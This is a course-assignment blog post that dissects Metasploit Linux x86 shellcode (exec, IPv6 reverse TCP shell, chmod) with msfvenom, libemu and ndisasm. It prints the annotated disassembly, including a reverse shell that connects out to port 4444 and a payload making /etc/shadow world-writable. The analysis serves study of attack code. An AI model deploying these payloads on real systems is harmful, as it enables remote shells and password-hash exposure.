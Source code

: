 ```yaml
---
layout: post
title: DISSECTING_METASPLOIT_SHELLCODE – LINUX/X86
excerpt_separator: <!--more-->
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 5
* Github: [Kartik Durg](https://github.com/kartikdurg)
<!--more-->

___

In this post we will be dissecting and analyzing the metasploit shellcodes using Ndisasm and Libemu.

Libemu: [https://github.com/buffer/libemu](https://github.com/buffer/libemu)

Packages like dh-autoreconf and graphviz are also needed in order to install and use libemu.

Now, lets start dissecting and analyzing the below metasploit shellcodes:

### 1) LINUX/X86/EXEC

To make it easier sctest in libemu, allows us to create the visual representation of a shellcode.

```
Command-Line:
==> msfvenom -p linux/x86/exec -f raw | ./sctest -vvv -Ss 100000 -G exec.dot
==> dot exec.dot -T png > exec.png
```

![](/media/5-dissect-1.jpg)

![](/media/5-dissect-2.jpg)

![](/media/5-dissect-3.jpg)

#### Analysis using ndisasm:

```
Command-Line:
==> msfvenom -p linux/x86/exec CMD=/bin/date -f raw | ndisasm -u -
```

![](/media/5-dissect-4.jpg)

```
00000000 6A0B          push byte +0xb
00000002 58            pop eax                  ;EAX=0xb
00000003 99            cdq                      ;EDX=0x0
00000004 52            push edx                 ;Push EDX|Zero byte
00000005 66682D63      push word 0x632d         ;PUSH "-c"
00000009 89E7          mov edi,esp              ;Now EDI points to top of the stack
0000000B 682F736800    push dword 0x68732f      ;PUSH "hs/"
00000010 682F62696E    push dword 0x6e69622f    ;PUSH "nib/"
00000015 89E3          mov ebx,esp              ;EBX points to top of stack
00000017 52            push edx                 ;Push EDX|Zero byte
00000018 E80A000000    call dword 0x27          ;Address of "/bin/date"
0000001D 2F            das                      ;Bytes of our string
0000001E 62696E        bound ebp,[ecx+0x6e]     ;Bytes of our string
00000021 2F            das                      ;Bytes of our string
00000022 6461          fs popad                 ;Bytes of our string
00000024 7465          jz 0x8b                  ;Bytes of our string
00000026 005753        add [edi+0x53],dl        ;Push edi and ebx
00000029 89E1          mov ecx,esp              ;points to our "exec" command
0000002B CD80          int 0x80                 ;syscall
```

### 2) LINUX/X86/SHELL/REVERSE_IPV6_TCP

Libemu:

```
Command-Line:
==> msfvenom -p linux/x86/shell/reverse_ipv6_tcp -f raw | ./sctest -vvv -Ss 100000 -G reverse_ipv6_tcp.dot
==> dot reverse_ipv6_tcp.dot -T png > reverse_ipv6_tcp.png
```

![](/media/5-dissect-5.jpg)

#### Analysis using ndisasm:

```
Command-Line:
==> msfvenom -p linux/x86/shell/reverse_ipv6_tcp -f raw | ndisasm -u -
```

Analysis: [Shell_Reverse_TCP_IPV6 – Linux/x86](https://kartikdurg.github.io/2018/07/29/shell-reverse-tcp-ipv6-linux-x86.html)

```
00000000 31DB            xor ebx,ebx
00000002 53              push ebx
00000003 43              inc ebx
00000004 53              push ebx
00000005 6A0A            push byte +0xa
00000007 89E1            mov ecx,esp
00000009 6A66            push byte +0x66
0000000B 58              pop eax
0000000C CD80            int 0x80
0000000E 96              xchg eax,esi
0000000F 99              cdq
00000010 6800000000      push dword 0x0
00000015 680A00020F      push dword 0xf02000a
0000001A 6800005EFE      push dword 0xfe5e0000
0000001F 6800000000      push dword 0x0
00000024 68FE800000      push dword 0x80fe
00000029 52              push edx
0000002A 6668115C        push word 0x5c11
0000002E 66680A00        push word 0xa
00000032 89E1            mov ecx,esp
00000034 6A1C            push byte +0x1c
00000036 51              push ecx
00000037 56              push esi
00000038 89E1            mov ecx,esp
0000003A 43              inc ebx
0000003B 43              inc ebx
0000003C 6A66            push byte +0x66
0000003E 58              pop eax
0000003F CD80            int 0x80
00000041 89F3            mov ebx,esi
00000043 B60C            mov dh,0xc
00000045 B003            mov al,0x3
00000047 CD80            int 0x80
00000049 89DF            mov edi,ebx
0000004B FFE1            jmp ecx
```

### 3) LINUX/X86/CHMOD

Libemu:

```
Command-Line:
==> msfvenom -p linux/x86/chmod -f raw | ./sctest -vvv -Ss 100000 -G chmod.dot
==> dot chmod.dot -T png > chmod.png
```

![](/media/5-dissect-6.jpg)

Analysis using ndisasm:

```
00000000 99            cdq               ;Push EDX|Zero byte
00000001 6A0F          push byte +0xf    ;chmod()
00000003 58            pop eax           ;EAX=0xf
00000004 52            push edx          ;PUSH EDX=0x0
00000005 E80C000000    call dword 0x16   ;call the code
0000000A 2F            das               ;start of our string
0000000B 657463        gs jz 0x71
0000000E 2F            das
0000000F 7368          jnc 0x79
00000011 61            popad
00000012 646F          fs outsd
00000014 7700          ja 0x16           ;end of our string
00000016 5B            pop ebx           ;EBX=string
00000017 68B6010000    push dword 0x1b6  ;"0x1b6" in OCTAL=0666
0000001C 59            pop ecx           ;chmod()
0000001D CD80          int 0x80
0000001F 6A01          push byte +0x1
00000021 58            pop eax
00000022 CD80          int 0x80          ;execute chmod()
```

___

Thank you for reading 🙂

– Kartik Durg